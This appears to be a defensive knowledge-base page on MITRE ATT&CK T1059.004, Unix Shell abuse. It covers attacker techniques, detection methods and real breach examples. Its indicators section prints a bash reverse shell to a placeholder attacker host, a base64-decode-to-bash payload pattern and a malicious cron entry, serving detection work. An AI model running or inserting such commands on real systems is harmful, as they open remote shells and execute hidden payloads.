 ```yaml
---
description: Unix Shell [T1059.004]
icon: lock
---
```


# Unix Shell

## Information

* Name: Unix Shell
* ID: T1059.004
* Tactics: [TA0002](../)
* Technique: [T1059](./)

## Introduction

Unix Shell ([T1059.004](../../../TA0002/techniques/T1059.004.md)) is a sub-technique under the MITRE ATT\&CK framework's Execution tactic, specifically categorized under Command and Scripting Interpreter (T1059). Attackers leverage Unix shells, such as Bash, Zsh, or Sh, to execute malicious code, run scripts, automate tasks, and interact directly with compromised systems. This sub-technique encompasses the use of shell commands and scripts executed directly through the Unix/Linux command-line interface or via scripts, providing attackers with flexible and powerful tools to achieve their objectives.

## Deep Dive Into Technique

Attackers commonly exploit Unix shells due to their ubiquity, flexibility, and powerful scripting capabilities. Unix shells provide access to system resources, file systems, network communications, and user privileges, making them ideal for attackers to carry out malicious activities.

Technical details and execution methods include:

* **Interactive Shell Sessions:**
  * Directly running commands or scripts through interactive shell sessions (e.g., Bash, Sh, Zsh).
  * Attackers may establish interactive shells remotely through SSH, Telnet, or reverse shells initiated via netcat, Python, Perl, or other scripting languages.
* **Script Execution:**
  * Using shell scripts (.sh files) to automate malicious actions, such as privilege escalation, reconnaissance, lateral movement, and persistence.
  * Scripts can be executed manually, via cron jobs, or through exploitation of vulnerable services and applications.
* **Shell Built-ins and Utilities:**
  * Utilizing standard Unix utilities such as `curl`, `wget`, `scp`, `ssh`, `nc`, `sed`, `awk`, and others to facilitate data exfiltration, payload downloads, persistence, or lateral movement.
  * Employing built-in shell commands (`echo`, `printf`, `exec`, `eval`) to execute encoded or obfuscated payloads.
* **Chained Commands and Obfuscation:**
  * Attackers often chain commands using pipes (`|`), semicolons (`;`), logical operators (`&&`, `||`), and redirections (`>`, `<`) to execute multiple actions in a single line or script.
  * Obfuscation techniques, such as base64 encoding, hexadecimal encoding, or character substitution, are frequently used to evade detection.
* **Privilege Elevation Attempts:**
  * Attackers may exploit misconfigured SUID binaries, sudo privileges, or kernel vulnerabilities through shell commands and scripts to escalate privileges from standard user accounts to root.

## When this Technique is Usually Used

Attackers leverage Unix shell sub-techniques across multiple stages of the attack lifecycle, including:

* **Initial Access and Exploitation:**
  * Exploiting vulnerabilities in web applications, SSH services, or remote code execution flaws to establish initial shell access.
* **Execution and Persistence:**
  * Executing malicious scripts or commands to establish persistent backdoors, cron jobs, or scheduled tasks.
  * Using shell scripts to maintain persistence by automating reconnection attempts or creating hidden processes.
* **Privilege Escalation:**
  * Exploiting misconfigured permissions, vulnerable binaries, or kernel exploits via shell commands to elevate privileges.
* **Defense Evasion:**
  * Using shell commands to disable logging, modify audit trails, clear log files, or obfuscate malicious activities.
* **Credential Access and Lateral Movement:**
  * Extracting credentials from configuration files, environment variables, or memory.
  * Using SSH, SCP, or other shell-based utilities to move laterally within the network.
* **Collection and Exfiltration:**
  * Employing shell commands and utilities (`tar`, `gzip`, `scp`, `curl`, `wget`) to compress and send sensitive data to attacker-controlled infrastructure.

## How this Technique is Usually Detected

Detection of Unix shell sub-techniques involves monitoring and analyzing various system and network indicators, including:

* **Process Monitoring and Auditing:**
  * Monitoring process execution logs (`auditd`, `syslog`, `auth.log`, `bash_history`) to detect suspicious or unusual command executions.
  * Implementing Linux audit frameworks (Auditd rules) to track execution of sensitive commands and binaries.
* **Command-Line Logging and Analysis:**
  * Capturing and analyzing command-line arguments and parameters for suspicious patterns, obfuscated commands, encoded payloads, or unusual command chaining.
  * Using Extended Bash History logging (with timestamps and user IDs) to correlate suspicious activities.
* **File System Monitoring:**
  * Monitoring for creation or modification of suspicious shell scripts (`.sh` files) in unusual directories (`/tmp`, `/dev/shm`, `/var/tmp`, user home directories).
  * Detecting unexpected changes in system binaries or scripts.
* **Network Traffic Analysis:**
  * Identifying unusual outbound network connections initiated by shell utilities (`curl`, `wget`, `nc`, `scp`, `rsync`) to external IP addresses or domains.
  * Analyzing DNS logs for suspicious domain lookups triggered by shell commands.
* **User Behavior Analytics:**
  * Leveraging behavioral analytics tools to detect deviations from normal user command-line patterns and workflows.

Specific Indicators of Compromise (IoCs):

*   Suspicious shell commands (e.g., reverse shells):

    ```
    bash -i >& /dev/tcp/attacker_ip/port 0>&1
    ```
*   Encoded payloads executed via shell commands:

    ```
    echo "payload" | base64 -d | bash
    ```
*   Unusual cron job entries or scheduled tasks executing shell scripts:

    ```
    */5 * * * * /tmp/malicious.sh
    ```
*   Presence of suspicious shell scripts in temporary directories:

    ```
    /tmp/.hidden_script.sh
    ```

## Why it is Important to Detect This Technique

Detecting Unix shell sub-techniques early is critical due to their significant impacts on system security, operational stability, and data integrity. Importance includes:

* **Preventing Privilege Escalation:**
  * Early detection of shell-based privilege escalation attempts prevents attackers from gaining administrative or root-level access, limiting potential damage.
* **Reducing Dwell Time:**
  * Quickly identifying shell-based malicious activities significantly reduces attacker dwell time, limiting the opportunity to move laterally or exfiltrate sensitive data.
* **Protecting Sensitive Data:**
  * Detection prevents attackers from successfully exfiltrating sensitive information, intellectual property, or credentials from compromised systems.
* **Maintaining System Integrity and Availability:**
  * Early identification and remediation of shell-based attacks minimize the risk of attackers disrupting critical system operations, modifying system binaries, or causing denial-of-service conditions.
* **Improving Incident Response Efficiency:**
  * Clear detection of shell-based malicious activities provides incident responders with actionable intelligence, allowing rapid containment, remediation, and recovery.

## Examples

Real-world examples of Unix shell sub-techniques include:

* **Equifax Data Breach (2017):**
  * Attackers exploited Apache Struts vulnerability (CVE-2017-5638), gaining initial shell access to Equifax servers.
  * Utilized Unix shell commands to establish persistence, escalate privileges, and exfiltrate sensitive personal data of millions of users.
* **Shellshock Vulnerability (CVE-2014-6271):**
  * Attackers exploited the Bash Shellshock vulnerability to execute arbitrary shell commands remotely on vulnerable Unix/Linux systems.
  * Shell commands were used to deploy reverse shells, install malware, and establish persistent access.
* **Operation Windigo (2014):**
  * Attackers leveraged Unix shell scripts and commands extensively to compromise thousands of Linux servers.
  * Shell scripts automated malware deployment, credential harvesting, and spam distribution activities.
* **Crypto-Mining Campaigns:**
  * Attackers frequently leverage Unix shell scripts to download and execute cryptocurrency mining malware on compromised Linux servers.
  * Shell commands automate malware deployment, persistence, and resource usage monitoring.

Common tools used by attackers in Unix shell attacks:

* Reverse shells: `netcat`, `bash`, `python`, `perl`
* Data exfiltration utilities: `scp`, `curl`, `wget`, `rsync`
* Privilege escalation scripts and tools: `LinEnum.sh`, `LinPEAS.sh`, `GTFOBins`
* Automated exploitation frameworks: `Metasploit`, `Empire`, `Cobalt Strike`

Impacts observed in these examples:

* Massive data breaches and sensitive information exposure.
* System compromise, unauthorized access, and persistent footholds.
* Financial loss due to crypto-mining resource abuse.
* Significant reputational damage and regulatory penalties.
